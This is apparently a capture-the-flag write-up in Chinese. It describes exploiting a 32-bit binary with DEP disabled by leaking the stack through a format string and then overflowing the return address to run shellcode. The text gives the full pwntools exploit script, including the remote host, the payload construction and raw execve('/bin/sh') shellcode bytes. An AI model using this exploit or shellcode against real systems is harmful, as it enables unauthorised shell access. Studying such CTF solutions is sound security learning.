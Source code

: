 使用 [checksec.sh](http://www.trapkit.de/tools/checksec.html) 檢查之後發現沒開 DEP  
那麼方向就很明顯了: return to shellcode  
先利用 format string leak 出 ebp, 得到目前 stack 的位置，並計算 input buffer 的 address  
透過第一次 overflow 覆寫 return address，讓程式執行完 `echo()` 之後重新回到 `echo()` 的開頭  
此時我們拿到了 input buffer 的 address  
就可以在 buffer 上面塞 shellcode  
並透過第二次的 overflow 讓 return address 跳到我們的 shellcode 上面執行拿到 shell    

要注意的是 buffer 只給我們 20 byte, 而我的 shellcode 有 23 byte  
因此最後我是將 shellcode 塞在 return address 後面，並向後跳至 shellcode 位址執行  
```python
#!/usr/bin/env python

from pwn import *
import sys
import time

HOST = "52.69.163.194"
PORT = 2222
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn2")
shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

shellcode = ''.join( chr(c) for c in shellcode_byte)


if __name__ == "__main__":

	echo_start = 0x08048540

	# leak ebp
	payload = "%p."*3
	payload = payload.ljust(20, "A")
	payload += p32(echo_start)
	r.sendline(payload)
	
	# calculate buffer address
	resp = r.recv(1024).split(".")[2]
	ret_addr = int(resp, 16) - 0x30 + 28

	# return to shellcode
	payload = "A"*20
	payload += p32(ret_addr)
	payload += "\x90"*10 + shellcode
	r.sendline(payload)
	r.interactive()

```

